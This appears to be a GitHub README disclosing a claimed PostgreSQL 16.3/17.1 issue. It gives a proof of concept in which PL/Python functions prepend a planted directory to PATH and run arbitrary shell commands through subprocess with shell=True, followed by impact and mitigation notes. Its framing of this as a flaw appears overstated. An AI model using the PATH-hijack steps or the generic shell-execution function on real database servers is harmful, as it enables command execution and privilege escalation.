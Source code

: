 # PostgreSQL Environment Variable Manipulation Vulnerability

## Description
This repository documents a vulnerability identified in PostgreSQL versions 16.3 and 17.1 that allows for unauthorized manipulation of environment variables using `PL/Python` functions. This issue can lead to unauthorized command execution, privilege escalation, and other potential security impacts.

## Affected Products/Versions
- **Product**: PostgreSQL
- **Versions Affected**: 16.3, 17.1

## Proof-of-Concept (PoC)
### Steps to Reproduce
1. Connect to the PostgreSQL database as a user with permissions to create functions.
   ```bash
   psql -U [username] -d [database_name]
2. Create a PL/Python function to modify the PATH environment variable:
   ```bash
   CREATE FUNCTION test_env_python() RETURNS void AS $$
   import os
   os.environ['PATH'] = '/tmp/test_bin:' + os.environ['PATH']
   $$ LANGUAGE plpython3u;
3. Verify the change by creating a custom script in /tmp/test_bin and executing it through PostgreSQL.
   Create the script:
   ```bash
   mkdir /tmp/test_bin
   echo -e '#!/bin/bash\n echo "Custom script executed!"' > /tmp/test_bin/ls
   chmod +x /tmp/test_bin/ls
4. Execute the script through a PostgreSQL function:
   ```bash
   CREATE FUNCTION run_shell_command(cmd TEXT) RETURNS void AS $$
   import subprocess
   subprocess.run(cmd, shell=True)
   $$ LANGUAGE plpython3u;

   SELECT run_shell_command('ls');

## Expected Outcome
The custom ls script in /tmp/test_bin is executed, demonstrating that environment variable manipulation allows for custom command execution.

### Impact

### This vulnerability enables:

Unauthorized Code Execution: An attacker with permissions to create functions may modify the environment and execute arbitrary commands.
Privilege Escalation: Depending on the privileges of the PostgreSQL user, an attacker may gain higher-level access or control over the underlying server.

## Suggested Mitigations

-Restrict Permissions: Limit the creation of PL/Python and PL/Perl functions to trusted users only.
-Environment Variable Sanitization: Ensure that environment variables are properly sanitized and modifications are restricted.
-Upgrade PostgreSQL: If a fix is released by the PostgreSQL Global Development Group, update to the latest version.
-Audit Database Functions: Regularly audit user-created functions to detect and prevent potential exploitation.
   
